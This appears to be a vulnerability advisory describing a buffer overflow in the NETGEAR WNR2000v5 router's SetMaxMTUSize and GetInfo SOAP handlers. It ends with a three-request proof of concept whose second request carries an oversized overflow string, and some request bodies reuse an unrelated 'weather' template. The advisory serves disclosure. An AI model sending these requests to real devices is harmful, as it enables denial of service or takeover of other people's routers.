

# Overview

- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.netgear.com/support/product/wnr2000v5/

# Affected version

WNR2000v5 1.0.0.80 and before

# Vulnerability description

A buffer overflow exists in the NETGEAR WNR2000v5 router (firmware V1.0.0.80 and before).By accessing the `SetMaxMTUSize` page, users can pass the payload to the `wan_dhcp_mtu` configuration item through the `NewMaxMTUSize` parameter, which will cause a bugger overflow when accessing the page `GetInfo`. As a result, an attacker could cause a denial of service or potentially remote code execution.

# Vulnerability details

Uhttpd is a HTTP server mainly used to provide basic services for device management interfaces (such as Web configuration pages). 

Netgear uses uhttpd to handle HTTP requests, after accessing the `SetMaxMTUSize` page, the `NewMaxMTUSize` parameter is preserved in `wan_dhcp_mtu` in config. When accessing the page `GetInfo`, this config will be read from config and pass to a `strcpy` which casue the corruption.

  

In function sub_4344B0 (url path WANIPConnection:#GetInfo) the vul exists.


# Poc
The packages should be sent in order.

Package 1
```
POST /apply.cgi HTTP/1.1
Host: example.com
Content-Type: text/xml; charset=utf-8
Content-Length: 456
SOAPAction: "http://example.com/weather:service:DeviceConfig:#ConfigurationStarted"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <getWeather xmlns="http://example.com/weather">
            <cityName>Shanghai</cityName>
        </getWeather>
    </soap:Body>
</soap:Envelope>
```


Package 2
```
POST /apply.cgi HTTP/1.1
Host: example.com
Content-Type: text/xml; charset=utf-8
Content-Length: 3790
SOAPAction: "http://example.com/weather:service:WANIPConnection:#SetMaxMTUSize"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetMaxMTUSize xmlns="http://example.com/weather:service:WANIPConnection:#SetMaxMTUSize">
            <NewMaxMTUSize>111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111</NewMaxMTUSize>
        </SetMaxMTUSize>
    </soap:Body>
</soap:Envelope>
```

Package 3
```
POST /apply.cgi HTTP/1.1
Host: example.com
Content-Type: text/xml; charset=utf-8
Content-Length: 775
SOAPAction: "http://example.com/weather:service:WANIPConnection:#GetInfo"

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <SetIPInterfaceInfo xmlns="http://example.com/weather:service:WANIPConnection:#GetInfo">
        </SetIPInterfaceInfo>
    </soap:Body>
</soap:Envelope>
```